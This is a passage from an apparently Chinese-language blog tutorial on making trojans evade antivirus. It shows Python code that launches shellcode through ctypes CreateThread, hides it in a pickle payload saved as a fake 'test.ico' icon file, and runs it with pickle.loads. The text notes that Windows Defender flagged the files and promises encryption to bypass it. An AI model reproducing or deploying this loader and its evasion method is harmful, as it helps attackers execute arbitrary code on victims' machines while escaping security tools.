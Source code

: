 ```python
)
handle= ctypes.windll.kernel32.CreateThread(
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.c_uint64(ptr),
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.pointer(ctypes.c_int(0))
)
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
"""

class A(object):
   def __reduce__(self):
       return(exec,(shellcode,))

ret=pickle.dumps(A())

#将pickle后的数据写入test.ico文件
with open("test.ico",'wb') as file:
   file.write(ret)
```

​	

#### PickleLoad.py

```python
import pickle
import ctypes

temp=open("test.ico","rb").read()
shellcode=pickle.loads(temp)  #将pickle数据转换成python数据结构,以此能够执行python代码
```



### 运行测试

先执行`GenerateShellcode.py`生成`shellcode.txt`文件, 再执行`PickleDump.py`生成`test.ico`文件, 用火绒扫描下这两个文件, 没有报毒, 但是WindowsDefender报毒了, 不过没关系, 后文我会通过对这两个文件加密来绕过WindowsDefender

<img src="木马免杀之代码篇/image-20221119222504696.png" alt="image-20221119222504696" style="zoom:67%;" />
